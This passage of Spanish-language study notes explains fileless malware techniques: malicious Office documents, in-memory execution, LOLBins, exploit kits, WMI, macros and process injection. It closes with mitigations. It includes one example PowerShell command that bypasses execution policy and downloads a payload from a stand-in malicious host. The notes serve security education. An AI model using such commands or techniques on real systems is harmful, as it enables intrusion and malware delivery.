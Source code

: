 •	Cómo funciona:
o	Contienen macros o scripts maliciosos que ejecutan payloads.
•	Ejemplo:
o	CVE-2017-0199: Una vulnerabilidad de Office que permitía ejecutar código remoto al abrir un documento malicioso.
2. In-Memory Execution
•	Qué es:
o	El malware se carga directamente en la memoria.
•	Cómo funciona:
o	No escribe en disco; se ejecuta directamente utilizando herramientas como PowerShell o MSHTA.
•	Ejemplo:
o	Exploits que aprovechan fallos en navegadores para inyectar código en memoria.
3. Script Injection
•	Qué es:
o	Inyección de scripts maliciosos en navegadores o herramientas legítimas del sistema.
•	Cómo funciona:
o	Puede ejecutarse desde scripts de PowerShell o mediante cross-site scripting (XSS).
•	Ejemplo:
o	Un script inyectado que descarga y ejecuta un payload en memoria.
4. Living off the Land Binaries (LOLBins)
•	Qué es:
o	Uso de binarios legítimos del sistema para ejecutar actividades maliciosas.
•	Herramientas comunes:
o	PowerShell, WMI, regsvr32, certutil.
•	Cómo funciona:
o	Comandos maliciosos se ejecutan directamente a través de binarios confiables para evadir detecciones.
5. Browser Exploits (Exploit Kits)
•	Qué es:
o	Vulnerabilidades en navegadores permiten ejecutar código en memoria.
•	Cómo funciona:
o	El exploit se carga al visitar una página web comprometida.
•	Ejemplo:
o	Angler Exploit Kit, que infectaba sistemas vulnerables con ransomware y fileless malware.
Herramientas y métodos asociados
PowerShell
•	Herramienta administrativa legítima utilizada para ejecutar comandos maliciosos en memoria.
•	Ejemplo de comando malicioso:
bash
Copiar código
powershell.exe -ExecutionPolicy Bypass -Command "Invoke-WebRequest -Uri http://malicioussite.com -OutFile payload.ps1"
Windows Management Instrumentation (WMI)
•	Framework de administración utilizado para ejecutar scripts maliciosos o mover malware entre sistemas.
Macros Maliciosas (VBA)
•	Utilizadas en documentos de Office para ejecutar comandos maliciosos.
•	Ejemplo:
o	Un macro VBA que ejecuta PowerShell para descargar y ejecutar payloads en memoria.
Dynamic Code Injection
•	Técnicas para inyectar código malicioso en procesos en ejecución:
o	DLL Injection: Inyectar una DLL maliciosa en procesos legítimos.
o	Process Hollowing: Cargar un proceso legítimo y reemplazar su código con código malicioso.
Medidas de prevención y mitigación
1.	Deshabilitar macros: Configurar software de oficina para deshabilitar macros no confiables.
2.	Endpoint Detection & Response (EDR): Monitorear y detectar comportamientos anómalos en memoria.
3.	Parcheo regular: Mantener sistemas y aplicaciones actualizados para cerrar vulnerabilidades explotables.
4.	PowerShell Constrained Language Mode: Restringir la ejecución de comandos no confiables.
5.	Segmentación de red: Limitar la propagación del malware a través de subredes.
